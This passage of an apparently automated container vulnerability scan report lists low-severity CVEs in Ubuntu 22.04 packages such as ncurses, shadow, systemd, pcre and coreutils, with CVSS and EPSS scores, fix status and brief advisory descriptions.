<tr><td>CVSS Score</td><td><code>6.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.050%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>15th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

NCurse v6.4-20230418 was discovered to contain a segmentation fault via the component _nc_wrap_entry().

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-45918?s=ubuntu&n=ncurses&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low : CVE--2023--45918" src="https://img.shields.io/badge/CVE--2023--45918-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>EPSS Score</td><td><code>0.043%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>12th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

ncurses 6.4-20230610 has a NULL pointer dereference in tgetstr in tinfo/lib_termcap.c.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 2" src="https://img.shields.io/badge/L-2-fce1a9"/> <!-- unspecified: 0 --><strong>shadow</strong> <code>1:4.8.1-2ubuntu2.2</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/shadow@1%3A4.8.1-2ubuntu2.2?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-29383?s=ubuntu&n=shadow&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 3.3: CVE--2023--29383" src="https://img.shields.io/badge/CVE--2023--29383-lightgrey?label=low%203.3&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>3.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.044%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>13th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

In Shadow 4.13, it is possible to inject control characters into fields provided to the SUID program chfn (change finger). Although it is not possible to exploit this directly (e.g., adding a new user fails because \n is in the block list), it is possible to misrepresent the /etc/passwd file when viewed. Use of \r manipulations and Unicode characters to work around blocking of the : character make it possible to give the impression that a new user has been added. In other words, an adversary may be able to convince a system administrator to take the system offline (an indirect, social-engineered denial of service) by demonstrating that "cat /etc/passwd" shows a rogue user account.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-56433?s=ubuntu&n=shadow&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low : CVE--2024--56433" src="https://img.shields.io/badge/CVE--2024--56433-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>EPSS Score</td><td><code>3.171%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>86th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

shadow-utils (aka shadow) 4.4 through 4.17.0 establishes a default /etc/subuid behavior (e.g., uid 100000 through 165535 for the first user account) that can realistically conflict with the uids of users defined on locally administered networks, potentially leading to account takeover, e.g., by leveraging newuidmap for access to an NFS home directory (or same-host resources in the case of remote logins by these local network users). NOTE: it may also be argued that system administrators should not have assigned uids, within local networks, that are within the range that can occur in /etc/subuid.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>libzstd</strong> <code>1.4.8+dfsg-3build1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/libzstd@1.4.8%2Bdfsg-3build1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2022-4899?s=ubuntu&n=libzstd&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 7.5: CVE--2022--4899" src="https://img.shields.io/badge/CVE--2022--4899-lightgrey?label=low%207.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.205%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>43rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A vulnerability was found in zstd v1.4.10, where an attacker can supply empty string as an argument to the command line tool to cause buffer overrun.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>pcre3</strong> <code>2:8.39-13ubuntu0.22.04.1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/pcre3@2%3A8.39-13ubuntu0.22.04.1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2017-11164?s=ubuntu&n=pcre3&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 7.5: CVE--2017--11164" src="https://img.shields.io/badge/CVE--2017--11164-lightgrey?label=low%207.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.184%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>41st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

In PCRE 8.41, the OP_KETRMAX feature in the match function in pcre_exec.c allows stack exhaustion (uncontrolled recursion) when processing a crafted regular expression.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>systemd</strong> <code>249.11-0ubuntu3.12</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/systemd@249.11-0ubuntu3.12?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-7008?s=ubuntu&n=systemd&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 5.9: CVE--2023--7008" src="https://img.shields.io/badge/CVE--2023--7008-lightgrey?label=low%205.9&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>5.9</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:H/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.295%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>52nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A vulnerability was found in systemd-resolved. This issue may allow systemd-resolved to accept records of DNSSEC-signed domains even when they have no signature, allowing man-in-the-middles (or the upstream DNS resolver) to manipulate records.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>debug</strong> <code>3.2.6</code> (npm)</summary>

<small><code>pkg:npm/debug@3.2.6</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2017-16137?s=github&n=debug&t=npm&vr=%3E%3D3.2.0%2C%3C3.2.7"><img alt="low 3.7: CVE--2017--16137" src="https://img.shields.io/badge/CVE--2017--16137-lightgrey?label=low%203.7&labelColor=fce1a9"/></a> <i>Uncontrolled Resource Consumption</i>

<table>
<tr><td>Affected range</td><td><code>>=3.2.0<br/><3.2.7</code></td></tr>
<tr><td>Fixed version</td><td><code>3.2.7</code></td></tr>
<tr><td>CVSS Score</td><td><code>3.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.079%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>24th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Affected versions of `debug` are vulnerable to regular expression denial of service when untrusted user input is passed into the `o` formatter. 

As it takes 50,000 characters to block the event loop for 2 seconds, this issue is a low severity issue.

This was later re-introduced in version v3.2.0, and then repatched in versions 3.2.7 and 4.3.1.

## Recommendation

Version 2.x.x: Update to version 2.6.9 or later.
Version 3.1.x: Update to version 3.1.0 or later.
Version 3.2.x: Update to version 3.2.7 or later.
Version 4.x.x: Update to version 4.3.1 or later.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>pcre2</strong> <code>10.39-3ubuntu0.1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/pcre2@10.39-3ubuntu0.1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2022-41409?s=ubuntu&n=pcre2&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 7.5: CVE--2022--41409" src="https://img.shields.io/badge/CVE--2022--41409-lightgrey?label=low%207.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.046%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>14th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Integer overflow vulnerability in pcre2test before 10.41 allows attackers to cause a denial of service or other unspecified impacts via negative input.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>libgcrypt20</strong> <code>1.9.4-3ubuntu3</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/libgcrypt20@1.9.4-3ubuntu3?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-2236?s=ubuntu&n=libgcrypt20&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low : CVE--2024--2236" src="https://img.shields.io/badge/CVE--2024--2236-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>EPSS Score</td><td><code>0.106%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>30th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A timing-based side-channel flaw was found in libgcrypt's RSA implementation. This issue may allow a remote attacker to initiate a Bleichenbacher-style attack, which can lead to the decryption of RSA ciphertexts.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>coreutils</strong> <code>8.32-4.1ubuntu1.2</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/coreutils@8.32-4.1ubuntu1.2?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2016-2781?s=ubuntu&n=coreutils&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 6.5: CVE--2016--2781" src="https://img.shields.io/badge/CVE--2016--2781-lightgrey?label=low%206.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>6.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.0/AV:L/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.065%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>21st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

chroot in GNU coreutils, when used with --userspec, allows local users to escape to the parent session via a crafted TIOCSTI ioctl call, which pushes characters to the terminal's input buffer.

</blockquote>
</details>
</details></td></tr>
</table>